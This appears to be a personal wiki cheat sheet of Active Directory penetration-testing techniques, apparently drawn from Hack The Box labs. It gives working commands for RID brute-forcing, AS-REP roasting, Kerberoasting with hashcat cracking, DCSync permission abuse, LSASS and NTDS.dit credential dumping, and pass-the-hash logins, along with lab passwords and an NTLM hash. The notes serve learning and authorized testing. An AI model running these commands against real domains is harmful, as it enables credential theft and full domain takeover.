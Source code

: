 ```yaml
---
layout: wiki
title: Internals - Active Directory Resources
cate1: Internal
cate2: Active Directory
description: Notes about Active Directory
keywords: Internals
---
```


# Initial Enumeration
[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)
  - Checks badpwdcount attribute only in the domain policy

[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/BLACKFIELD\\//' > users.txt
GetNPUsers.py BLACKFIELD/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

[LDAPSearch Cheat Sheet](https://notes.benheater.com/books/active-directory/page/ldapsearch)
```
Domain Contexts: ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts
Search Users: ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)'
```

Other resources
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)

[LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

Old tool however useful if Bloodhound.py isn't working as intended.

[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)

[BloodHound CE](https://github.com/SpecterOps/BloodHound)

**Additional Resources** 
  - [BloodHound Community Edition](https://support.bloodhoundenterprise.io/hc/en-us/articles/17468450058267-Install-BloodHound-Community-Edition-with-Docker-Compose)
  - [BloodHound Cypher Cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)
    
```
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

[BloodHound.py for Linux](https://github.com/dirkjanm/BloodHound.py)
```
python3 bloodhound.py -u "support" -p "#00^BlackKnight" -c ALL -d BLACKFIELD.local -ns 10.10.10.192 -dc dc01.BLACKFIELD.local
```

# Active Directory Exploitation
[ASREPRoasting via Impacket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)

[WriteDACL - BloodHound](https://support.bloodhoundenterprise.io/hc/en-us/articles/17312765477787-WriteDacl)

[Abusing Active Directory ACLs/ACEs](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)

[NTLMRelay](https://www.thehacker.recipes/ad/movement/ntlm/relay)

[DCSync - secretsdump](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)

**With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)

[Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)

**Requires:** Domain Credentials

**Targets:** Service Accounts with SPNs registered on the domain to retrieve TGS tickets containing the SPN hashes.

```
GetUserSPNs.py -request active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
```

## Lateral Movement
[ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

**Requires:** `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` on Object

```
net rpc password AUDIT2020 -U BLACKFIELD\\support -S BLACKFIELD.local (prompts new password)
```

## Credential Dumping
[LSASS Dump - lsass.DMP](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)

**Requires:** Credential Guard to be disabled.

```
Dumping LSASS via Linux: https://medium.com/@offsecdeer/dumping-lsass-remotely-from-linux-efc47391e56d
```

[Pypykatz - Mimikatz for Linux](https://github.com/skelsec/pypykatz)

**Requires:** A DMP file containing credentials extracted to our Linux machine.
```
pypykatz lsa minidump lsass.DMP
```

## Domain Escalation
[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)
```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)

## Other Resources
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58
```

-----------------------------------------------------------------------

## Active Directory Tools
[NetExec](https://github.com/Pennyw0rth/NetExec)
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh (install Rust)
source $HOME/.cargo/env
pipx install git+https://github.com/Pennyw0rth/NetExec
```

[PowerView (Deprecated since 2021)](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```. .\powerview.ps1```

**NSE**
```--script smb-os-discovery,smb-enum-shares,smb-enum-users,smb-vuln*```

**SMB**
Enum4Linux
SMBMap
smbclient
smbclient.py (Impacket)
[NetExec - Cheatsheet](https://github.com/BlWasp/NetExec-Cheatsheet)
[SMB Enumeration Cheatsheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)

**WinRM**
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
```
evil-winrm -i 10.10.10.192 -u "svc_backup" -H "9658d1d1dcd9250115e2205d9f48400d"
```

[Impacket]()
```
python3 -m pipx install impacket
  - **PSExec**
    - Shell access via SMB shares (Pass the Hash) 
  - **GetNPUsers**
    - Kerberos Pre-authentication disabled (ASREPRoasting)
```

## Resources
 - [The Hacker Recipes](https://www.thehacker.recipes/)
 - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

